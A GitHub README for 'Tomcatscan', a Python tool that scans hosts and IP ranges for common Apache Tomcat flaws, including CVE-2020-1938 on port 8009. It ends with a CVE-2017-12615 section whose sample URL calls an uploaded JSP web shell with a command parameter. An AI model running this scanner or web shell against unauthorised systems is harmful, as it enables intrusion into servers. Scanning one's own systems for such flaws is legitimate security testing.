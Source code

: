# Tomcatscan
Tomcat common vulnerability detection

python3 Tomcatscan.py -u xxx -p xx  //对指定端口进行漏洞探测，同时会检测8009端口cve-2020-1938漏洞
![Image text](https://github.com/einzbernnn/Tomcatscan/blob/main/img/1.png)
python TomcatScan.py -H 192.168.1.1-192.168.2.255 //默认检测8080，8081，80，443，8009端口，如需深入探测，可以先利用信息收集工具收集tomcat url保存到文件中后通过 -f参数检测


python TomcatScan.py -f url.txt
#-f 参数 文件中ip的几种格式：

http://192.168.1.1:8080 ##检测8080端口，同时检测8009端口是否存在cve_2020_1938

http://192.168.1.1          ##检测80端口和443端口，同时检测8009端口是否存在cve_2020_1938

https://192.168.1.1         ##检测80端口和443端口，同时检测8009端口是否存在cve_2020_1938

192.168.1.1                   ##检测80端口和443端口，同时检测8009端口是否存在cve_2020_1938

192.168.1.1:8080         ##检测8080端口和443端口，同时检测8009端口是否存在cve_2020_1938



cve-2017-12615 shell利用：访问并执行命令
![Image text](https://github.com/einzbernnn/Tomcatscan/blob/main/img/2.png)
http://192.168.3.137:8080/1635405387.jsp?&pwd=023&cmd=whoami

